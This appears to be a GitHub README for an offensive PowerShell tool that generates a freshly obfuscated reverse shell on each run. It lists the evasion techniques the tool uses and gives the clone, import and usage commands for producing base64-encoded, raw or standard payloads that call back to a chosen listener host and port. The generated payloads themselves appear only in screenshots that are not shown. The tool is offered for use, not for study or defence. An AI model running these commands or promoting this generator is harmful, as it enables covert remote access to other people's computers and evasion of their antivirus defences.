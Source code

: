 # DynamicPSHRSH - PS Based RevShell Generator Script
- A nice little PowerShell script I wrote for generating an obfuscated Powershell based reverse-shell. Eachtime the script is ran, a whole new reverse shell with different set of obfuscations is generated.
- The script has inbuilt pre-defined set of obfuscation techniques ranging from :
  - Random junk data
  - Random letter cases
  - Reversed strings
  - Cmdlet obfuscation (Via quote interruption and other techniques to retrieve the original Cmdlet)
  - Randomly generated variable names
  - Object name obfuscation 

![image](https://github.com/user-attachments/assets/2e0ba0a2-c7e1-4538-a879-333f98532cfd)

## Installation :

```
git clone https://github.com/Vedant-Bhalgama/DynamicPSHRSH.git
Import-Module .\DynamicPSHRSH.ps1
Invoke-DynamicRSH
```

## Usage : 

```
Dynamic Powershell Reverse Shell Generator v1.0 - By @ActiveXSploit

Usage: Invoke-DynamicRSH -LHOST <L_IP> -LPORT <L_PORT> [-B64Encode or -Raw or Standard]

Required Arguments : 
   -LHOST  :  Specify listening host IP Address/Hostname
   -LPORT  :  Specify listening port number

Positional Arguments :
   -B64Encode  :  Payload execution via the -e switch (Base64 Encoded)
   -Raw        :  Raw reverse shell code template (No encodings + W/O Additional Powershell switches)
   -c          :  Standard execution (No encodings + Additional Powershell switches)
```

## Examples :
  ### 1. Standard Payload Template : 
    Invoke-DynamicRSH -LHOST 127.0.0.1 -LPORT 443 -c
![image](https://github.com/user-attachments/assets/d1a197d7-0024-4d83-b1cd-cfdb08a1ed58)

  ### 2. Base64 Encoded Payload Template :
    Invoke-DynamicRSH -LHOST 127.0.0.1 -LPORT 443 -B64Encode
![image](https://github.com/user-attachments/assets/36de92cc-92d3-4a95-9586-314f0e83ea71)

  ### 3. Raw PowerShell Code Template : 
    Invoke-DynamicRSH -LHOST 127.0.0.1 -LPORT 443 -Raw
![image](https://github.com/user-attachments/assets/eee97999-c295-45a5-b34a-cd185d54318e)
